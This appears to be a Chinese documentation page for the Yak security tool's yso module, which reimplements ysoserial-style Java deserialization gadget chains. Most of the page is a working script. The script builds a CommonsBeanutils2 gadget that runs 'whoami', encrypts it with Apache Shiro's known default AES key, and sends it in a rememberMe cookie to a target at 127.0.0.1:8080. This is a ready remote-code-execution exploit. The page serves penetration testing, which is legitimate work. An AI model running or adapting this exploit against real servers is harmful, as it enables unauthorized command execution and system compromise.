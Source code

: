 ```yaml
---
sidebar_position: 113
---
```


# Java 反序列化利用链: yso(ysoserial)

Yak 通过非 Java 的方式实现了一整套 Java 反序列化协议。

可以在一定容错限度内劫持绝大部分 Java 反序列化流。

详情参考 [java: java 反序列化协议的 Golang/Yak 实现](/api-manual/api/java)

## YsoSerial 的 Yak 替代品

在实现了 Java 反序列化协议后，Java 相关漏洞不再需要原生 Java 或硬编码 HEX/Binary 流来实现。如下是一个测试 shiro payload 的简单案例

```go
log.setLevel("info")
gadgetObj,err = yso.GetGadget("CommonsBeanutils2",yso.useTemplate("RuntimeExec"),yso.evilClassName("YLGjbAeS"),yso.majorVersion(52),yso.useClassParam("cmd","whoami"))
if err {
    log.error("%v",err)
	return
}
gadgetBytes,err = yso.ToBytes(gadgetObj,yso.twoBytesCharString(),yso.dirtyDataLength(0))
if err {
    log.error("%v",err)
    return
}

// 16进制展示payload
hexPayload = codec.EncodeToHex(gadgetBytes)    
(hexPayload)

// Shiro利用
target = "127.0.0.1:8080"
base64Key = "kPH+bIxk5D2deZiIxcaaaA==" // base64编码的key
key,_ = codec.DecodeBase64(base64Key) // 生成key
payload = codec.PKCS5Padding(gadgetBytes, 16) // 加密payload
encodePayload = codec.AESCBCEncrypt(key, payload, nil)[0]
finalPayload = codec.EncodeBase64(append(key, encodePayload...))
rsp,req,_ = poc.HTTP(`GET /login HTTP/1.1
Host: {{params(target)}}
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: no-cache
Cookie: rememberMe={{params(payload)}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
`,poc.params({"payload":finalPayload,"target":target})) // 发送payload
str.SplitHTTPHeadersAndBodyFromPacket(rsp)
log.info("发送Payload成功")
log.info("响应包: ",string(rsp))	
```